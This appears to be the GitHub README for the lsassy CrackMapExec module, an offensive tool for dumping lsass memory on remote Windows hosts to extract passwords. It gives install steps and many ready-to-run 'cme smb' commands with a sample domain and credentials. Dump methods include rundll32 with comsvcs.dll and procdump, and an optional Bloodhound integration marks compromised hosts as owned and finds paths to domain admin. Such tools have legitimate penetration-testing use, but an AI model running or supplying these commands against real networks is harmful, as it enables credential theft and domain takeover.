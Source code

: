 # lsassy CrackMapExec Module

![CrackMapExec >= 4.0.1](https://img.shields.io/badge/CrackMapExec-%3E=4.0.1-red)

This CME module uses **lsassy** to remotely extract lsass password, and optionally interacts with Bloodhound to **set compromised hosts as owned** and check if compromised users have a **path to domain admin**.

![CME Module example](https://github.com/Hackndo/lsassy/raw/master/assets/example_cme.png)

## Requirements

* Python2.7
  - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* Python3.6+
  - [lsassy](https://github.com/Hackndo/lsassy/)


## Installation

* Install **lsassy**
* Download [lsassy CrackMapExec module](https://raw.githubusercontent.com/Hackndo/lsassy/master/cme/lsassy.py)
* Copy `lsassy.py` in `[CrackMapExec Path]/cme/modules`
* Reinstall CrackMapExec using python2.7 `python setup.py install`

```bash
python3 -m pip install lsassy
wget https://raw.githubusercontent.com/Hackndo/lsassy/master/cme/lsassy.py
cp lsassy.py /opt/CrackMapExec/cme/modules/
cd /opt/CrackMapExec
python setup.py install
```

## Usage

### Basic

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

### Advanced

By default, this module uses `rundll32.exe` with `comsvcs.dll` DLL to dump lsass process on the remote host, with method **1** of lsassy.

If you want to specify the dumping method, use the `METHOD` option (`lsassy -h` for more details)

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o METHOD=3
```

If you're using a method that requires procdump, you can specify procdump location with `PROCDUMP_PATH` option.

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o METHOD=2 PROCDUMP_PATH=/opt/Sysinternals/procdump.exe
```

By default, lsass dump name is randomly generated. If you want to specify a dump name, you can use `REMOTE_LSASS_DUMP` option.

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o REMOTE_LSASS_DUMP=LSASSY_DUMP.dmp
```

### BloodHound

You can set BloodHound integration using `-o BLOODHOUND=True` flag. This flag enables different checks :
* Set "owned" on BloodHound computer nodes that are compromised
* Detect compromised users that have a **path to domain admin**

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o BLOODHOUND=True
```

You can check available options using

```
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
[*] lsassy module options:

            METHOD              Method to use to dump procdump with lsassy. See lsassy -h for more details
            REMOTE_LSASS_DUMP   Name of the remote lsass dump (default: Random)
            PROCDUMP_PATH       Path to procdump on attacker host. If this is not set, "rundll32" method is used
            BLOODHOUND          Enable Bloodhound integration (default: false)
            NEO4JURI            URI for Neo4j database (default: 127.0.0.1)
            NEO4JPORT           Listeninfg port for Neo4j database (default: 7687)
            NEO4JUSER           Username for Neo4j database (default: 'neo4j')
            NEO4JPASS           Password for Neo4j database (default: 'neo4j')
            WITHOUT_EDGES       List of black listed edges (example: 'SQLAdmin,CanRDP', default: '')

```

## Issue

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

Have fun
